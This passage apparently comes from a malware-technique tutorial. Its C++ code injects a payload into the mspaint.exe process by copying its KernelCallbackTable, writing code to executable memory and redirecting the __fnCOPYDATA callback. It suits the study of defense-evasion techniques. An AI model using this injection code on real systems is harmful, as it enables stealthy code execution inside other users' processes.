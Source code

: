 ```cpp
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;
```

Then, find a window for `mspaint.exe`, obtain the process id and open it:

```cpp
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

After that, read the `PEB` and existing table address:   

```cpp
HMODULE ntdll = GetModuleHandleA("ntdll");
pNtQueryInformationProcess myNtQueryInformationProcess = (pNtQueryInformationProcess)(GetProcAddress(ntdll, "NtQueryInformationProcess"));

myNtQueryInformationProcess(ph, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

ReadProcessMemory(ph, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
ReadProcessMemory(ph, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
```

Then, write our payload to remote process via `VirtualAllocEx` and `WriteProcessMemory`:   

```cpp
LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);
```

We use `VirtualAllocEx` which is allows to you to allocate memory buffer for remote process, then, `WriteProcessMemory` allows you to copy data between processes, so copy our payload to `mspaint.exe` process.    

Write the new table to remote process:    

```cpp
LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
kct.__fnCOPYDATA = (ULONG_PTR)rb;
WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);
```
